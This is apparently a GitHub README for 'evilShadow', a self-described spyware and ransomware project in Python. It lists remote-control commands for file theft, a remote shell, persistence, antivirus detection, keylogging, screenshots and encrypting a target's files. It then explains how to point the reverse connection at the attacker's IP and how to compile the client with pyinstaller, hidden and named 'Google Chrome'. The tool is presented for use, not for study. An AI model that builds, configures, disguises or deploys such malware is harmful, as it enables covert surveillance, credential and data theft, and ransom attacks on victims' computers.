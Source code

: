 # evilShadow

SpyWare and RansomWare. The project is currently developing…...


# Functions
(N/A) -> Not Implemented yet
```
                Aviable Commands:

                    | [!>] download <path> -> Download A File From Target PC
                    ---------------------------------------------------------
                    | [!>] startTask       -> Monitoring & kill tasks managers
                    ---------------------------------------------------------
                    | [!>] check           -> Check For Administrator Privileges
                    ---------------------------------------------------------
                    | [!>] sysinfo         -> Get System Information
                    ---------------------------------------------------------
                    | [!>] shell           -> Enter Shell Mode 
                    ---------------------------------------------------------
                    | [!>] av              -> Try Detect Anti-Virus
                    ---------------------------------------------------------
                    | [!>] upload <path>   -> Upload local File To Target PC
                    ---------------------------------------------------------
                    | [!>] get <url>       -> Download A File To Target PC From Any Website
                    ---------------------------------------------------------
                    | [!>] persistence     -> Try to get persistence (needed root)
                    ---------------------------------------------------------
                    | [!>] lowpersistence  -> Try to get persistence (no root)
                    ---------------------------------------------------------
                    | [!>] exec <command>  -> Exec command in no shell mode
                    ---------------------------------------------------------
                    | [!>] cryptDir <dir>  -> Crypt a full folder in target
                    ---------------------------------------------------------
                    | [!>] crypt <file>    -> Crypt a file in target
                    ---------------------------------------------------------
                    | [!>] keylog_dump     -> Dump The Keystrokes From Keylogger
                    ---------------------------------------------------------
                    | [!>] screenshot      -> Take a screenshot
                    ---------------------------------------------------------
                    | [!>] cryptAll        -> (N/A) Close connex and crypt full system
                    ---------------------------------------------------------
                    | [!>] destruction     -> (N/A) Eliminate all and close conect
                    --------------------------------------------------------- 
                    | [!>] q               -> Suspend the conection
                    ---------------------------------------------------------
                    | [!>] exit            -> Terminate the conection
                    ---------------------------------------------------------
```

# Detections:
![image](https://github.com/an0mal1a/evilShadow/assets/129337574/684c71c5-eef2-41f4-bc99-82dd05dbe260)
hash: 8f361df2687c1d5ac2c9a251ab8903cea2de914305420842b566726926903b5b


# Requirements

- ```pip install -r requirements.txt```


# Preparación:

En el script **Connection.py** en la línea *239* tenemos la línea que crea la conexión. La modificamos a la direccion ip
del atacante

-     sock.connect ( ( '127.0.0.1' ,1337) )

Una véz hecho esto podremos ejecutar el script, no requerimos de ningún cambio más.


# **Compilación**

- Tenemos varias opciones: (Accedemos a la carpeta CLIENT)

    ### Windows:
  
    - Admin Required:
      
        `client>pyinstaller --onefile --noconsole --clean --uac-admin -n "Google Chrome" conection.py`

    - **NO** Admin Required:
      
        `client>pyinstaller --onefile --noconsole --clean -n "Google Chrome" conection.py`

    ### Linux:
      
    `client>pyinstaller --onefile --noconsole --clean -n "Google Chrome" conection.py`

